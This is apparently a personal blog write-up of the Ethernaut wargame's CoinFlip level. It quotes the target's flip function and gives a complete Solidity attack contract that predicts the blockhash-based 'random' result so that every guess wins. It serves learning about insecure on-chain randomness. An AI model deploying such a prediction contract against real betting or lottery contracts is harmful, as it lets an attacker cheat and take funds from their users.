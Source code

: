 # Ethernaut Challenge level 3

# Introduction

Here I am, again trying to claim ownership of this smart contract. I already feel like a malicious actor lol. Nevertheless, this particular challenge did not involve being made the owner, rather it was about winning the challenge at least 10 consecutive times. and was very interesting as the hint suggested to "look beyond ethernaut". This further led to [Remix IDE](https://remix.ethereum.org/).

> NOTE: You don't need to read through the entire article if you are looking for some solution to your problem. Head down to the challenges section and see if I encountered the same challenge as you.

# Let's Start

At first, it was very perplexing as I had just one question in mind, "How am I supposed to guess the value of `coinFlip` variable?". It took me some time to read back on the hints provided and to figure out we have to somehow use Remix to be able to cross this challenge.

Soon, I realized that the value of the above-mentioned variable is dependent on the hash of the block number divided by a huge `FACTOR` variable. This makes it less random and maybe could even be guessed accurately every time. Clearly, in the below code, we can very precisely determine the value of `guess` to be passed to the function call. I literally have to calculate the same `blockValue` using the exact same usage and then calculate `coinFlip` and then call the function `flip` with the boolean result of `coinFlip` being equal to 1.

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

I, then quickly opened up the editor and wrote a small contract consisting of an interface of the `flip` the function I need to call and the contract address of the deployed contract.  
While deploying, I passed in the correct contract address of the deployed contract and started calling the `flip` function written in my hack contract.

```solidity
//SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

interface CoinFlip{
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipHack {
    CoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address){
        coinFlip= CoinFlip(_address);
    }
    
    function flip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 flipVal = blockValue / FACTOR;
        bool guess = flipVal==1?true:false; 
        coinFlip.flip(guess);
    }
}
```

The above code is the actual hack contract which determines what should the guess value be while calling the actual contract to basically attain consecutive victories.

After calling the contract 10 times, I went to the console and checked if I had 10 consecutive wins or not, turns out, I am a HACKERR!!!

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1673776437242/48bf419f-38d4-4746-91b9-40e49680dc3a.png align="center")

Finally, I submitted the instance and bam, done, I passed the test hahaah.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1673776463113/31759871-5bf5-42fe-a047-c5128f37abcc.png align="center")

# Challenges

1. I couldn't understand how to be soo accurate with guessing the correct boolean value.
    
    Solution: Saw the hint and used an editor to write a contract that determines the correct value by simply making the same calculations.
    

# Support

If you liked my article, consider supporting me with a coffee ☕️ or some crypto ( ₿, ⟠, etc)

Here is my public address `0x7935468Da117590bA75d8EfD180cC5594aeC1582`

[![Buy Me A Coffee](https://cdn.buymeacoffee.com/buttons/default-yellow.png align="left")](https://www.buymeacoffee.com/atoo)

### Let's connect

[**GitHub**](https://github.com/Atoo35)

[**LinkedIn**](https://www.linkedin.com/in/atharva-deshpande-187969140/)

[**Twitter**](https://twitter.com/atharva_35)

### Feedback

Let me know if I have missed something or provided the wrong info. It helps me keep genuine content and learn.